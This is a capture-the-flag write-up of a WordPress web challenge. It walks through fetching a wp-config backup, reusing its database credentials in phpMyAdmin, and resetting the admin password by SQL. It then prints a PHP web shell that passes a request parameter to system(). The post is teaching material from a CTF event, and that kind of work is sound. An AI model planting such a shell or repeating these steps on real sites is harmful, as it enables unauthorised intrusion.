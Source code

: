 ```yaml
---
layout:     post
title:      "Writeup - Capture South Africa"
subtitle:   "Write-Up"
date:       2018-10-01 
author:     "Abhishek S"
permalink: /:title/
category: Boot2Root
---
```


This is a write-up for the WEB-APP Challenge [Capture South Africa] in Redteamvillage’s CTF event at Defcon TVM 0x02.




Special thanks to my awesome team members of defcon_speakers_0x02 (Sreeram KL & Vishnuprasad PG)

<p>

http://l.xyz was a web application which was running wordpress instance, while doing basic enumeration, i noticed that the wordpress version used was the most latest one, and the first post was something fishy, the first post’s author name was ‘victimcorp’… i was checking for common vulnerablities that were present in wordpress, i checked for vulnerable plugins and stuff, but couldn’t find any and all were latest, i remember reading a POC in which wp-config file was downloadable, so i thought to try that, but i failed, then i tried adding a .bak (i.e: http://l.xyz/wp-config.php.bak) and there was a backup file, and it did download! </p>


<p>Hurray!!!, I’ve checked it and it was the common config file with the configuration & credentials of the database, I’ve got the username and password from there, I checked for the open ports & instances with nmap, and it was pretty surprising that there was no instance related to DB running, I suddenly got an idea, i just went into /phpmyadmin/ and tried the db credentials! hurray! i logged into the phpmyadmin dashboard, i went to the corresponding database and went to the table wp-users, the password for admin there was encrypted, so i got an idea, instead of decrypting that, i just encrypted ‘test123’ into wordpress salted pass, and updated the pass of user ‘victimcorp’ with an sql DML command.  </p>
  
 <p> 
then, i went to /wp-admin/ and logged into the admin account, we all thought that the flag would be inside the admin panel, but it was not there! where was it? suddenly i got an idea to shell the server, i went to themes, and added a .php file with the following code. </p>

<?
<HT.ML>
<BODY>
<FORM METHOD=”GET” NAME=”cmdform” ACTION=””>
<INPUT TYPE=”text” NAME=”linux command”>
<INPUT TYPE=”submit” VALUE=”command”>
</FORM>
<?
if($_GET[‘cmd’]) {
system($_GET[‘cmd’]);
}
?>
</BODY></HTM.L>
  
<p>
and used ls, and some basic commands, and the flag was inside the /www2/ directory in a file called flag.txt
This was a webapp challenge in the redteamvillage’s ctf, and i loved pr3wning it! There were 6 challenges in total, and our team managed to solve 5 of them, and won the 2nd place :)
Thanks for reading, I hope it was a good read!
P.S: I’ve wanted to make a writeup for the other challenges too, but i don’t have much time with me in order to do that :(
Bug Bounty Hunting
  </p>
